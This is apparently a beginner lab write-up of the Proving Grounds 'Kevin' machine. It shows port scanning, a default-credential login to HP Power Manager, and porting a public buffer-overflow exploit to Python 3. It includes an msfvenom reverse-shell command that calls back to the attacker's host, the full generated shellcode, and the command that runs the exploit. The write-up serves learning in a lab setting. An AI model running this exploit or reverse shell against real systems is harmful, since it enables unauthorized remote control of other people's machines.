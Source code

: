 ```yaml
---
title: "Proving Grounds - Kevin"
date: 2024-10-19T00:00:00+00:00
author: Mathijs Verschuuren
layout: post
permalink: /pg-kevin/
categories: Labs
tags: [writeup]
---
```

Welcome to our latest lab session in Proving Grounds! In this post, we'll demonstrate how to adapt an existing buffer overflow exploit for an older version of Windows to work on a newer release. This lab is considered to be a beginner lab as only porting existing exploit code is required.

## Discovery

We start off with a nmap scan and scan all open tcp ports using the '-p-' argument. The following output appears after waiting for the scan to complete.

```bash
sudo nmap -p- -vv -Pn -A -T4 -sV 192.168.233.45 -oA ./fulltcp
```

The port scan suggests that we are likely dealing with a Windows machine, as indicated by the presence of commonly open ports that are characteristic of Windows environments. For instance, port 445/tcp is associated with the Server Message Block (SMB) protocol, which is used for file sharing and network resource access. Additionally, port 3389/tcp is used for Remote Desktop Protocol (RDP), allowing users to connect remotely to a Windows system. The scan also reveals other relevant ports, such as 135/tcp and 139/tcp, which are used for various Windows services, including RPC and NetBIOS. 

![image](https://github.com/user-attachments/assets/31ae973c-0f97-49b3-9a32-92f5729aba23)

The machine also hosts a web application, which presents a valuable opportunity for further exploration. In cases like this, especially in a lab environment, starting with the web application is often a prudent approach, as it can yield interesting findings. By investigating the web server, we may uncover useful information that could shed light on the underlying system architecture and functionality. This could include identifying technologies in use, potential vulnerabilities, or even configuration details that help us better understand the overall environment we're dealing with.

The page displays a login screen for HP Power Manager, which, upon first glance, appears somewhat dated in its design. The user interface lacks modern aesthetics and functionality, giving it an older feel that may suggest it hasn’t been updated in a while.

![image](https://github.com/user-attachments/assets/3c50b0f7-34e1-4640-a7e1-e0b66eb2b138)

Using the default credentials of admin/admin grants us access to the interface, revealing some insights into the application behind it. 

![image](https://github.com/user-attachments/assets/438a2576-5076-45cf-9668-73444f8b71ac)

Let’s take a look at Searchsploit to check for any vulnerabilities related to HP Power Manager. By searching the database, we can identify known exploits, security issues, or weaknesses associated with this application.

It seems that the application were dealing with is vulnreable to a Buffer Overflow vulnerability. 

![image](https://github.com/user-attachments/assets/0e3e5ca1-bc00-49fe-aa68-9ad0112b5fb1)

It appears that the application we are dealing with is vulnerable to a buffer overflow vulnerability. This type of vulnerability can allow an attacker to manipulate the application’s memory, potentially leading to arbitrary code execution or denial of service.

By utilizing Searchsploit with the -w flag, we can pinpoint the URL (https://www.exploit-db.com/exploits/10099) that provides access to the exploit code associated with this vulnerability. This will enable us to review the specific details of the exploit, including its mechanics and any prerequisites for successful execution.

The provided exploit code targets a buffer overflow vulnerability in HP Power Manager and has been specifically tested on Windows 2003 Enterprise SP2 English and Windows XP SP2 English. We can identify that the code is written in Python 2 due to several key features:

1. **Print Statement**: The use of `print` statements without parentheses (e.g., `print "HP Power Manager Administration Universal Buffer Overflow Exploit"`) is characteristic of Python 2 syntax. In Python 3, `print` is a function and requires parentheses.

2. **String Handling**: The code employs string formatting and concatenation in a manner typical of Python 2. For instance, the `%` operator is used for string interpolation, which is less common in modern Python 3 code, where f-strings or the `format()` method are preferred.

3. **Socket Module**: While the `socket` module is available in both Python 2 and Python 3, its usage here reflects conventions associated with Python 2.

4. **General Style**: The overall coding style, including how the buffer is constructed and sent, aligns with Python 2 conventions, making it evident that the code is not intended for compatibility with Python 3.

The exploit works by sending a specially crafted HTTP POST request to the application, attempting to manipulate its memory by overwriting the return address with a location that can execute arbitrary code. The payload is constructed in the `evil` variable, which includes the necessary HTTP headers and the crafted buffer. As noted in the comments, this exploit demonstrates the significant security risks associated with outdated software, especially when default credentials remain in use.

I frequently search for new code to see if anyone has already taken the initiative to convert older projects to newer versions, such as Python 3. This proactive approach not only saves me time but also ensures that I can leverage the latest features and improvements in the language.

![image](https://github.com/user-attachments/assets/c0b78fbe-5169-497b-838d-888ec2f3f744)

I will use this Python 3 code (https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/blob/master/hp_pm_exploit_p3.py) example as a starting point and explore how we can port the existing code to ensure it works effectively.


## Exploit

We will download the exploit code and open it with a text editor of our choice. 

```bash
wget https://raw.githubusercontent.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/refs/heads/master/hp_pm_exploit_p3.py
nano hp_pm_exploit_p3.py
```

With buffer overflows often the command to generate the shellcode is added as a comment. This is also the case for our exploit.

![image](https://github.com/user-attachments/assets/434e1fd7-f86e-4d02-851e-b0eb822f7c1f)

We will use the msfvenom command to generate our own shellcode that will work with the buffer overflow. It’s crucial to remember to change the LHOST value to your own IP address to ensure the shellcode can establish a connection back to our machine. For the LPORT, we will select 443/tcp, as this port is commonly permitted on firewalls.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.166 LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
```

This outputs the following:

```bash
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of python file: 1722 bytes
buf =  b""
buf += b"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
buf += b"\x81\x76\x0e\xd2\x9f\xb3\xc4\x83\xee\xfc\xe2\xf4"
buf += b"\x2e\x77\x31\xc4\xd2\x9f\xd3\x4d\x37\xae\x73\xa0"
buf += b"\x59\xcf\x83\x4f\x80\x93\x38\x96\xc6\x14\xc1\xec"
buf += b"\xdd\x28\xf9\xe2\xe3\x60\x1f\xf8\xb3\xe3\xb1\xe8"
buf += b"\xf2\x5e\x7c\xc9\xd3\x58\x51\x36\x80\xc8\x38\x96"
buf += b"\xc2\x14\xf9\xf8\x59\xd3\xa2\xbc\x31\xd7\xb2\x15"
buf += b"\x83\x14\xea\xe4\xd3\x4c\x38\x8d\xca\x7c\x89\x8d"
buf += b"\x59\xab\x38\xc5\x04\xae\x4c\x68\x13\x50\xbe\xc5"
buf += b"\x15\xa7\x53\xb1\x24\x9c\xce\x3c\xe9\xe2\x97\xb1"
buf += b"\x36\xc7\x38\x9c\xf6\x9e\x60\xa2\x59\x93\xf8\x4f"
buf += b"\x8a\x83\xb2\x17\x59\x9b\x38\xc5\x02\x16\xf7\xe0"
buf += b"\xf6\xc4\xe8\xa5\x8b\xc5\xe2\x3b\x32\xc0\xec\x9e"
buf += b"\x59\x8d\x58\x49\x8f\xf7\x80\xf6\xd2\x9f\xdb\xb3"
buf += b"\xa1\xad\xec\x90\xba\xd3\xc4\xe2\xd5\x60\x66\x7c"
buf += b"\x42\x9e\xb3\xc4\xfb\x5b\xe7\x94\xba\xb6\x33\xaf"
buf += b"\xd2\x60\x66\x94\x82\xcf\xe3\x84\x82\xdf\xe3\xac"
buf += b"\x38\x90\x6c\x24\x2d\x4a\x24\xae\xd7\xf7\x73\x6c"
buf += b"\xff\x39\xdb\xc6\xd2\x9e\x08\x4d\x34\xf5\xa3\x92"
buf += b"\x85\xf7\x2a\x61\xa6\xfe\x4c\x11\x57\x5f\xc7\xc8"
buf += b"\x2d\xd1\xbb\xb1\x3e\xf7\x43\x71\x70\xc9\x4c\x11"
buf += b"\xba\xfc\xde\xa0\xd2\x16\x50\x93\x85\xc8\x82\x32"
buf += b"\xb8\x8d\xea\x92\x30\x62\xd5\x03\x96\xbb\x8f\xc5"
buf += b"\xd3\x12\xf7\xe0\xc2\x59\xb3\x80\x86\xcf\xe5\x92"
buf += b"\x84\xd9\xe5\x8a\x84\xc9\xe0\x92\xba\xe6\x7f\xfb"
buf += b"\x54\x60\x66\x4d\x32\xd1\xe5\x82\x2d\xaf\xdb\xcc"
buf += b"\x55\x82\xd3\x3b\x07\x24\x53\xd9\xf8\x95\xdb\x62"
buf += b"\x47\x22\x2e\x3b\x07\xa3\xb5\xb8\xd8\x1f\x48\x24"
buf += b"\xa7\x9a\x08\x83\xc1\xed\xdc\xae\xd2\xcc\x4c\x11"
```

In the example code the 'b' in front of every line is not used. Lets remove it for our payload as well.

![image](https://github.com/user-attachments/assets/91e62cb7-0681-4d8e-ada9-6df08e881177)

This results in the following code pasted in to the exploit.

![image](https://github.com/user-attachments/assets/c713de71-8fec-49ad-91e0-1fb5634a39dc)

We save our exploit and are ready to try it on the server. We will look at the script to see how to interact with it. In this case there is a help menu available.

![image](https://github.com/user-attachments/assets/c90c6b4b-0440-4021-908b-9cbff638ac5b)

It seems that the tool automatically starts up a listener.

![image](https://github.com/user-attachments/assets/f3277c34-c09b-4327-a405-460db7a25461)

Time for action.

```bash
python3 hp_pm_exploit_p3.py 192.168.233.45 80 443
```

The exploit works!

![image](https://github.com/user-attachments/assets/c7d3009a-b583-490f-a557-604587989408)

## Credits

Thank you for taking the time to read. My goal is to document my findings for personal reference and to share insights into my thought processes, helping those who are new to the field learn and grow. I believe that providing this additional context can be beneficial for others as they navigate their own journeys in this domain.
